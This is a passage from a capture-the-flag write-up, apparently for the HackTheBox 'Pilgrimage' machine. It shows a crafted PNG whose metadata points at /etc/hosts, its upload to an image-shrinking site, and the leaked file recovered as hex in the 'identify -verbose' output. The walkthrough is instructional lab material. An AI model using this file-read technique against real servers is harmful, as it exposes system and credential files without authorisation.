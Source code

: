 `exiftool` will show it as well:

```
oxdf@hacky$ exiftool pngout.png
ExifTool Version Number         : 12.40
File Name                       : pngout.png
...[snip]...
Profile                         : /etc/hosts
Image Size                      : 183x122
Megapixels                      : 0.022

```

I’ll submit this to the site, and download the resulting file:

```
oxdf@hacky$ wget http://pilgrimage.htb/shrunk/655cd80f631f0.png
--2023-11-21 11:17:16--  http://pilgrimage.htb/shrunk/655cd80f631f0.png
Resolving pilgrimage.htb (pilgrimage.htb)... 10.10.11.219
Connecting to pilgrimage.htb (pilgrimage.htb)|10.10.11.219|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7525 (7.3K) [image/png]
Saving to: ‘655cd80f631f0.png’

655cd80f631f0.png          100%[=====================================>]   7.35K  --.-KB/s    in 0s

2023-11-21 11:17:17 (812 MB/s) - ‘655cd80f631f0.png’ saved [7525/7525]

```

`identify -verbose` will show the resulting metadata, where the file is in the `profile` section:

```
oxdf@hacky$ identify -verbose 655cd80f631f0.png
Image:
  Filename: 655cd80f631f0.png
  Format: PNG (Portable Network Graphics)
  Mime type: image/png
  Class: DirectClass
...[snip]...
    Raw profile type:

     205
3132372e302e302e31096c6f63616c686f73740a3132372e302e312e310970696c677269
6d6167652070696c6772696d6167652e6874620a0a232054686520666f6c6c6f77696e67
206c696e65732061726520646573697261626c6520666f7220495076362063617061626c
6520686f7374730a3a3a3120202020206c6f63616c686f7374206970362d6c6f63616c68
6f7374206970362d6c6f6f706261636b0a666630323a3a31206970362d616c6c6e6f6465
730a666630323a3a32206970362d616c6c726f75746572730a
...[snip]...

```

That hex is the file that was read, and can be decoded many ways:
